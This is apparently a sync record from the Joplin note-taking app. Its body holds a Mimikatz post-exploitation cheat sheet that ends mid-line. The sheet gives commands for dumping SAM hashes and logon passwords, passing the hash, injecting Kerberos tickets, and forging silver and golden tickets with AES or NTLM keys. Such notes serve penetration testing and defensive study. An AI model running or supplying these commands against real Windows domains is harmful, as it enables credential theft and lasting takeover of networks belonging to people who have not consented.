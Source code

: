 id: a224903430034c88aa707afea1c1e967
parent_id: 
item_type: 1
item_id: 47b792b9adf748ee8b933cb57a91173c
item_updated_time: 1643937706238
title_diff: "[{\"diffs\":[[1,\"Mimikatz\"]],\"start1\":0,\"start2\":0,\"length1\":0,\"length2\":8}]"
body_diff: "[{\"diffs\":[[1,\"# Mimikatz\\\n\\\nPost exploitation commands must be executed from SYSTEM level privileges.\\\n\\\n- mimikatz # privilege::debug\\\n- mimikatz # token::whoami\\\n- mimikatz # token::elevate\\\n- mimikatz # lsadump::sam\\\n- mimikatz # sekurlsa::logonpasswords\\\n\\\n## Pass The Hash\\\n\\\n- mimikatz # sekurlsa::pth /user:username /domain:domain.tld /ntlm:ntlm_hash\\\n\\\n## Inject generated TGS key\\\n\\\n- mimikatz # kerberos::ptt &lt;ticket\\\\_kirbi\\\\_file&gt;\\\n\\\n## Generating a silver ticket\\\n\\\nAES 256 Key:\\\n\\\n- mimikatz # kerberos::golden /domain:&lt;domain\\\\_name&gt;/sid:&lt;domain\\\\_sid&gt; /aes256:&lt;krbtgt\\\\_aes256\\\\_key&gt; /user:&lt;user\\\\_name&gt; /service:&lt;service\\\\_name&gt; /target:&lt;service\\\\_machine\\\\_hostname&gt;\\\n\\\nAES 128 Key:\\\n\\\n- mimikatz # kerberos::golden /domain:&lt;domain\\\\_name&gt;/sid:&lt;domain\\\\_sid&gt; /aes128:&lt;krbtgt\\\\_aes128\\\\_key&gt; /user:&lt;user\\\\_name&gt; /service:&lt;service\\\\_name&gt; /target:&lt;service\\\\_machine\\\\_hostname&gt;\\\n\\\nNTLM:\\\n\\\n- mimikatz # kerberos::golden /domain:&lt;domain\\\\_name&gt;/sid:&lt;domain\\\\_sid&gt; /rc4:&lt;ntlm\\\\_hash&gt; /user:&lt;user\\\\_name&gt; /service:&lt;service\\\\_name&gt; /target:&lt;service\\\\_machine_hostname&gt;\\\n\\\n## Generating a Golden Ticket\\\n\\\nAES 256 Key:\\\n\\\n- mimikatz # kerberos::golden /domain:&lt;domain\\\\_name&gt;/sid:&lt;domain\\\\_sid&gt; /aes256:&lt;krbtgt\\\\_aes256\\\\_key&gt; /user:&lt;user_name&gt;\\\n\\\nAES 128 Key:\\\n\\\n- mimikatz # kerberos::golden /domain:&lt;domain\\\\_name&gt;/sid:&lt;domain\\\\_sid&gt; /aes128:&lt;krbtgt\\\\_aes128\\\\_key&gt; /user:&lt;user_name&gt;\\\n\\\nNTLM:\\\n\\\n- mimikatz # kerberos::golden /domain:&lt;domain\\\\_name&gt;/sid:&lt;domain\\\\_sid&gt; /rc4:&lt;krbtgt\\\\_ntlm\\\\_hash&gt; /user:&lt;user_name&gt;\\\n\\\n# Load Mimikatz via PSH Script\\\n\\\n> cd /opt/nishang/Gather/\"]],\"start1\":0,\"start2\":0,\"length1\":0,\"length2\":1679}]"
metadata_diff: {"new":{"id":"47b792b9adf748ee8b933cb57a91173c","parent_id":"2deea0a2fd65431c90074dad6a2d5de8","latitude":"0.00000000","longitude":"0.00000000","altitude":"0.0000","author":"","source_url":"","is_todo":0,"todo_due":0,"todo_completed":0,"source":"joplin-desktop","source_application":"net.cozic.joplin-desktop","application_data":"","order":1586396751457,"markup_language":1,"is_shared":0,"share_id":"","conflict_original_id":"","master_key_id":""},"deleted":[]}
encryption_cipher_text: 
encryption_applied: 0
updated_time: 2022-02-04T01:22:03.474Z
created_time: 2022-02-04T01:22:03.474Z
type_: 13